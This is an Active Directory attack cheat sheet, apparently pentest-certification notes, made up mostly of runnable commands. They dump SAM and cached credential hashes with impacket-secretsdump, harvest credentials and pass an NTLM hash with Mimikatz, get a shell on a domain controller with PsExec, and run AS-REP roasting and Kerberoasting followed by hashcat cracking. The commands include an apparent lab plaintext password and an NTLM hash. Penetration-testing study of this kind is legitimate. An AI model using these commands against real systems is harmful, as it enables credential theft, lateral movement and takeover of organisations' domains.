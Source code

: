 ```
cme winrm ip -u celia.almeda -p password
```

#### Dump the local password hash and domain cached hash
```
impacket-secretsdump -sam SAM(local SAM file) -system SYSTEM(local SYSTEM file) local
impacket-secretsdump celia.almeda:7k8XHk3dMtmpnC7@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt
impacket-secretsdump celia.almeda@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt -hashes lm:nt
```

#### Abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket(TGT) and gain rce
https://learn.microsoft.com/en-us/sysinternals/downloads/psexec
```
sekurlsa::logonpasswords
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
net use \\dc01(logon server)
klist
.\PsExec.exe \\dc01 or \\DC01/Allison cmd.exe
```
#### AS-REP Roasting(Require Do not require Kerberos preauthentication enabled)
Enum users with Do not require Kerberos preauthentication enabled
```
PowerView's Get-DomainUser function with the option -PreauthNotRequired
kali: impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast domain/username:pass
```
Extract hashes and Crack
```
.\Rubeus.exe asreproast /nowrap
hashcat -a 0 -m 18200 hashes.asreproast2 rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
#### Kerberoasting
>The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets are encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline. You can know that a user account is being used as a service because the property "ServicePrincipalName" is not null.

>Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.

>You need valid credentials inside the domain.
```
Check all SPNs within the domain:
setspn -Q */*
```
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
hashcat -a 0 -m 13100 hashes.kerberoast rockyou.txt
```
>If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so.
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 domain/username:pass -outputfile <output_TGSs_file>
```
>Clock skew too great Error
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
```